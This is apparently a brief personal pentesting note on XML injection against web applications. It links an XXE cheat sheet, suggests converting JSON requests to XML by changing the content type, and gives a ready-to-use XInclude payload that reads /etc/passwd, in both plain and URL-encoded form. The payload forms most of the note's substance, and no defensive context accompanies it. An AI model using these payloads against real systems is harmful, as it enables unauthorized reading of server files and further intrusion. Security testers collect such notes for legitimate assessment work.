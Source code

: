 http://www.securityidiots.com/Web-Pentest/XXE/XXE-Cheat-Sheet-by-SecurityIdiots.html

use this to convert json to xml when mucking around with content type:
https://www.freeformatter.com/json-to-xml-converter.html
_REMEMBER to get rid of `<root></root>` as required_

Xinjection: 
`<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>`
`%3Cfoo%20xmlns:xi=%22http://www.w3.org/2001/XInclude%22%3E%3Cxi:include%20parse=%22text%22%20href=%22file:///etc/passwd%22/%3E%3C/foo%3E`
